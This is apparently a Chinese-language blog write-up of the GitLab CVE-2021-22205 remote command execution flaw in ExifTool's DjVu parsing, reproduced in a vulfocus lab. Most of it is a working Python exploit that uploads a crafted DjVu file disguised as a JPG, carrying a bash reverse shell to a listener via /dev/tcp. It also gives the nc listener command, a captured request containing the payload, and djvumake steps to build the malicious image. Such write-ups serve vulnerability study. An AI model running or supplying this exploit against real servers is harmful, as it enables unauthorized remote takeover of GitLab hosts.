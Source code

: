 ```yaml
---
title: GitLab漏洞-CVE-2021-22205
date: 2024-03-11 00:46 +0800
tags: [cms, GitLab, CVE]
tags: [cms, 服务攻防]
img_path: /img/web/
---
```

## 0x00 漏洞简介

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

**漏洞影响版本：**

> 11.9 <= Gitlab CE/EE < 13.8.8
> 
> 13.9 <= Gitlab CE/EE < 13.9.6
> 
> 13.10 <= Gitlab CE/EE < 13.10.3
{: .prompt-info}

#### 1、gitlab介绍

GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

![截图](53f251f94670a4aec3de59c5c0d2912f.png)

可以看到在gitlab的组成中包含的各种组件，可以通过两个关键入口访问，分别是HTTP/HTTPS(TCP 80,443)和SSH(TCP 22)，请求通过nginx转发到Workhorse，然后Workhorse和Puma进行交互，这里我们着重介绍下通过Web访问的组件GitLab Workhorse。

> Puma 是一个用于 Ruby 应用程序的简单、快速、多线程和高度并发的 HTTP 1.1 服务器，用于提供GitLab网页和API。从 GitLab 13.0 开始，Puma成为了默认的Web服务器，替代了之前的Unicorn。而在GitLab 14.0中，Unicorn 从Linux 包中删除，只有Puma可用。

而漏洞的成因就在于`Gitlab Workhorse`处理文件的过程中。

#### 2、漏洞成因

当我们利用接口`/uploads/user`上传图像文件时，`GitLab Workhorse`会将扩展名为`jpg、jpeg、tiff`文件传递给`ExifTool`。而`ExifTool`作用在于删除其中不合法的标签。而`ExifTool`在解析文件的时候会忽略文件的扩展名，尝试根据文件的内容来确定文件类型，其中支持的类型有DjVu。

> DjVu是由AT&T实验室自1996年起开发的一种图像压缩技术，已发展成为标准的图像文档格式之一;
> 
> ExifTool是一个独立于平台的Perl库，一款能用作多功能图片信息查看工具。可以解析出照片的exif信息，可以编辑修改exif信息，用户能够轻松地进行查看图像文件的EXIF信息，完美支持exif信息的导出。
{: .prompt-info}

关键在于ExifTool在解析DjVu注释的ParseAnt函数中存在漏洞，所以我们就可以通过构造DjVu文件并插入恶意注释内容将其改为jpg后缀上传，因为gitlab并未在这个过程中验证文件内容是否是允许的格式，最后让ExifTool以DjVu形式来解析文件，造成了ExifTool代码执行漏洞。

以上的内容参考自： [AirSky](https://mp.weixin.qq.com/s/Y4mGVhbc3agp1adnUs1GmA)

## 0x01 漏洞复现

我是利用vulfocus搭建环境进行复现。

这里,我们可以直接利用网上开源的一些脚本:

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup

class Exploit():
    __info__ = {
        'name': 'CVE-2021-22205',
        'desription': 'gitlab 未授权远程命令执行',
        'references': ['https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205'],
        'devices': ['gitlab',
                    '11.9=< version <13.8.8',
                    '13.9=< version <13.9.6',
                    '13.10=< version <13.10.3'
        ],
    }


    target = "192.168.31.38"
    port = 43536
    reverseShell = "echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"

    def exploit(self):
        proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
        session = requests.Session()
        session.proxies = proxies
        requests.packages.urllib3.disable_warnings()
        url = "http://{}:{}".format(self.target, self.port)
        try:
            r = session.get(url.strip("/") + "/users/sign_in", verify=False)
            soup = BeautifulSoup(r.text, features="lxml")
            token = soup.findAll('meta')[16].get("content")
            data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{" + self.reverseShell + "} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
            headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
                "Connection": "close",
                "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
                "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
            flag = 'Failed to process image'
            req = session.post(url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
            print(session.body)
            x = req.text
            if flag in x:
                return "success!!!"
            else:
                print("[-] Vuln Check Failed... ...")
                return 'failed'
        except Exception as error:
            print(error.with_traceback())
            print("[-] Vuln Check Failed... ...")
            return 'failed'

    def run(self):
        res = self.exploit()
        return res

if __name__ == '__main__':
    exploit = Exploit()
    '''
    在GitLab CE/EE中发现一个问题，从11.9开始影响所有版本。
    GitLab没有正确地验证传递给文件解析器的图像文件，导致远程命令执行
    此脚本利用此漏洞进行反弹shell, 测试前请配置好下面的 listenIp 和 listenPort 参数
    '''
    exploit.target= "192.168.31.38" # 目标服务器
    exploit.port = 43536      # 目标端口
    listenIp = "192.168.31.38" # 本地监听ip
    listenPort = "6666"   # 本地监听端口
    exploit.reverseShell = exploit.reverseShell.format(listenIp,listenPort)
    result = exploit.run()
    print(result)

```
{: file='1.py'}

这里,我们只需要修改一下利用地址和端口 ；还有本地监听的地址和端口。

然后，我们需要利用nc监听本地端口：

```bash
nc.exe -lvnp 6666
```

然后启动脚本：

```bash
python 1.py
```

之后，就可以可以看到shell的反弹了。

## 0x02 脚本代码分析

这里，我截下流量包的图片，以便我们可以看到脚本代码中发送的流量情况：

```sass
POST /uploads/user HTTP/1.1
Host: 192.168.31.38:43536
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
X-CSRF-Token: BYGxDBZjz3NG0PKDN1lK1fMagmzwzsPNyod+zPUBYlYL9rGDbXJDAS6JJCBMGxQNKD/PIpool1nVPBv159zTew==
Cookie: _gitlab_session=addf2bf61cd6e800858774f8cb8ea0a7; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkltUTVOekk0TVRZMUxUTXdObU10TkRkaVpDMWlOemN6TFRSaE5XWmxNREpqTXpWbU5DST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--70dccc24ff47022870ee986c26295ba243fc285e
Content-Length: 971


------WebKitFormBoundaryIMv3mxRg59TkFSX5
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

AT&TFORM  疍JVMDIRM   .?    F   ?蘅?!葢N? 亿堣k鍰,q領觧暯⒚"?FORM   ^DJVUINFO   
   d  INCL   shared_anno.iff BG44    J  婃岜7?*? BG44   鶡BG44   
FORM   DJVIANTa  P(metadata
	(Copyright "\
" . qx{echo '/bin/bash -i >& /dev/tcp/192.168.31.38/6666 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )                                                                                                                                                                                                                                                                                                                                                                                                                                     

------WebKitFormBoundaryIMv3mxRg59TkFSX5--
```
{: file='数据包'}

![截图](8f00070c63b3c49d089da52c0b7ed354.png)

然后，从图中可以看到，这里我们利用的上传接口确实是`/uploads/user`，除此之外，代码本身还通过获取`X-CSRF-Token`和未登录`Session`来进行未授权访问。

而上传的数据包内容，则是一个DjVu文件的内容格式，其中还包含了我们注释的恶意代码内容，以便让`ExifTool`完成最终的代码执行。

当然，这里我们也已直接使用`DjVu`来创建我们的恶意代码。用法：（在kali中）

```shell
sudo apt-get install -y djvulibre-bin
```

准备好恶意文本：

```sass
(metadata
	(Copyright "\
"  qx{echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"} . \
" b ") )
```{: file='cve.txt'}

制作`DjVu`图片格式：

```shell
djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg
```

最终jpg里的内容为：
![截图](20240311003341298.png)

